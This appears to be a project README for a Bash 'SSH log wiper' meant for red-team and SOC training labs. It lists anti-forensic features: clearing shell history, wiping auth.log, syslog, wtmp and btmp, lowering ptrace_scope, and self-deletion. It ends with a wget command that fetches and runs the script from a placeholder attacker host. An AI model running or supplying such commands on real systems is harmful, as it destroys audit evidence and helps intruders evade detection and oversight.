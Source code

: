 - Usage 🙌

 Anti-Forensics Bash Script: SSH Log Wiper
This project demonstrates how attackers may clean up their traces after gaining remote access to a Linux system via SSH. It includes a Bash script that performs full cleanup of forensic artifacts, simulating realistic attacker behavior for Red Team or SOC training labs.

🎯 Features
Clears .bash_history and disables history logging

Wipes key system log files: auth.log, syslog, wtmp, btmp, etc.

Deletes temporary files from /tmp and /var/tmp

Optionally lowers ptrace_scope for stealth

Prompts user to optionally reboot the system

Self-destructs: deletes itself after execution or reboot

🧪 Lab Setup
Attacker: Kali Linux (hosts the script over HTTP)

Victim: Ubuntu server (pulls script via wget or curl and executes)

⚠️ Disclaimer
This script is for educational and red team lab use only.
Do not use on production environments or without permission.

💡 Example Use

```bash
wget http://<ATTACKER_IP>:8080/clean.sh -O /tmp/clean.sh
chmod +x /tmp/clean.sh
bash /tmp/clean.sh
